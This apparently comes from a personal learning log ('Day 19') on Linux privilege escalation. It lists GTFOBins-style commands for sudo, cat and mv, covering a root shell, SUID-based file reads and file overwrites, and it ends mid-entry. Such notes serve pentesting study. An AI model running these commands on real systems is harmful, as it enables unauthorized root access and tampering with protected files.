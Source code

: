 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
- Sudo:
  ```sh
   
 </br>

